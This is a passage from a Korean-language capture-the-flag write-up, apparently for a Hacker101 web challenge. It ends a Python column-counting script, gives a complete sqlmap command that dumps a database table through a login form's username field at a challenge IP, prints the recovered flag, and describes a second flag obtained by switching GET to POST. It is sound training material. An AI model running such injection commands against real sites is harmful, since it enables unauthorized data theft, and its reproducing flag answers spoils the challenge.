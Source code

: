    ```python
                print("[*] {}'s column count is {}. ".format(db_list, columnCount))
                break
   ```
   
   
   admins의 column 개수는 3개, pages의 column의 개수는 4개 인 것을 알 수 있었다.
   
   여기서 귀첞아서... 그냥 sqlmap을 돌렸다... (이 정도 코딩했으면 tool 돌릴만 하잖아!!)
   
   ```
   sqlmap -u http://35.190.155.168/87ece3af89/login --method POST --data "username=FUZZ&password=" -p username --dump -D level2 -T pages --dbms mysql --regexp "invalid password" --level 2
   ```
   
   위와 같은 명령어로 sqlmap을 돌려본 결과 Flag 데이터가 있었다.
   
   ```
   My secret is ^FLAG^1f6d49309f52f2dd44924c96dede83183e6818dbb9ca78fb091ab948247a5e37$FLAG$
   ```
   


# # 2 Flag
  이 flag는 몰라서 찾아봤는데 게시글을 수정할때 아래와 같은 url로 GET 방식으로 요청하는 것을 볼 수 있다.
  
  ![image](https://user-images.githubusercontent.com/38517436/64121187-0f4fdc00-cdd9-11e9-93a9-04e8453e5219.png)

  이 문제는 만약 GET이 아니라 다른 method로 요청이 들어왔을 경우, 그에 따른 개발자가 예상치 못한 응답을 보낼 수 도 있다는 것을 알려주는 문제인듯 하다.
  
  그래서 GET 말고 POST 방식으로 요청을 보내면 다음과 같이 Flag를 얻을 수 있다.
  
  ![image](https://user-images.githubusercontent.com/38517436/64121346-88e7ca00-cdd9-11e9-9d2c-9f678d66526d.png)


